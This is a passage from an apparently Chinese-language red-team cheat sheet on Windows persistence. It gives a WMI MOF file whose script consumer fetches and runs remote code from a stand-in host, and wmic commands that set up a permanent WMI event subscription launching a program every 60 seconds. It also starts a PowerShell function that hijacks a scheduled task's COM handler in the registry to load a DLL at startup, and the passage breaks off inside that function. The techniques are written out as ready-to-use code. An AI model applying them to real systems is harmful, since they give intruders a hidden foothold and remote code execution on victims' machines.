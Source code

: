 ```
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```

管理员执行：

```
mofcomp test.mof
```

##### 13、[wmi](https://3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe)

每隔60秒执行一次notepad.exe

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

##### 14、[Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/Userland-registry-hijacking)

劫持计划任务UserTask，在系统启动时加载dll

```
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
```